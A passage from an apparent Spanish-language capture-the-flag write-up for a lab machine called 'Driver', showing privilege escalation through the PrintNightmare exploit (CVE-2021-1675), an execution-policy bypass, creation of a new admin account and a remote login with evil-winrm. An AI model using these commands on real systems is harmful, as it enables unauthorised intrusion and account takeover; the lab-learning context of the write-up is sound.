 Ahora simplemente seguimos los siguientes pasos.

- ``Import-Module .\cve-2021-1675.ps1`` (Si nos indica que los privilegios de ejecución están restringidos debemos hacer un **``set-ExecutionPolicy bypass process``**)
- ``Invoke-Nightmare -DriverName "Xerox" -NewUser "c4sp" -NewPassword "c4sp"``

Luego verificamos con ``net user`` que el usuario se creo correctamente.

![[Imagenes/Driver/D 6.png]]

Ahora simplemente nos conectamos con **``netexec``** a través de **``evil-winrm``** pero con el nuevo usuario que hemos creado. ``c4sp:c4sp``

- **``evil-winrm -i 10.10.11.106 -u c4sp -p c4sp``**

![[Imagenes/Driver/D 7.png]]

De esta forma ya seríamos usuario **``root``** por lo tanto reclamaríamos la flag y por lo tanto completaríamos la máquina.












